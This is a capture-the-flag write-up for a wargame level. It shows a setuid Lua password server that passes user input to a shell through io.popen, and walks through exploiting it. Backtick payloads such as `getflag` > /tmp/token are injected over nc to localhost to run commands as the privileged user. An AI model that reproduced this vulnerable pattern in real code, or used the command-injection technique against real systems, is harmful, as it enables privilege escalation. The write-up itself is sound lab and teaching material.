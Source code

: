# LEVEL 10

In our home directory, we see a **`.lua`** script with suid/guid bit:
```
>$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
```
>$ cat level11.lua
    #!/usr/bin/env lua
    local socket = require("socket")
    local server = assert(socket.bind("127.0.0.1", 5151))

    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end


    while 1 do
      local client = server:accept()
      client:send("Password: ")
      client:settimeout(60)
      local l, err = client:receive()
      if not err then
          print("trying " .. l)
          local h = hash(l)

          if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
              client:send("Erf nope..\n");
          else
              client:send("Gz you dumb*\n")
          end

      end

      client:close()
    end
```
We can see this program waits for a connection with the server running on `127.0.0.1` (hostname) and `5151` (port).
It will prompt for a password and pass anything we write to a hashing function.

Let's see if we can exploit that, by making it run `getflag` in the place of the password.
if we try:
```
>$ ./level11.lua
```
we get:
```
lua: ./level11.lua:3: address already in use
stack traceback:
[C]: in function 'assert'
./level11.lua:3: in main chunk
[C]: ?
```
so let's check it using netstat to list all running processes:
```
>$netstat -tulpn
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```
Let's try to connect to this host&port mentioned in the file and try with a `whoami` as password to check our permissions:
```
>$ nc 127.0.0.1 5151
Password: `whoami`
Erf nope..
```
We can't see the output of the command, since the script pipes it.
Let's redirect it to a file:
```
>$ nc 127.0.0.1 5151
Password: `whoami` > /tmp/test
Erf nope..
>$ cat /tmp/test
flag11
```
now we can try to run getflag as flag11:
```
>$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
>$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
#### Vulnerability:
* Subprocess on user-provided input in script run by privileged user -> Privilege escalation via code injection.

#### Documentation:
1. https://www.ionos.com/digitalguide/server/tools/introduction-to-netstat/
1. https://linux.die.net/man/1/nc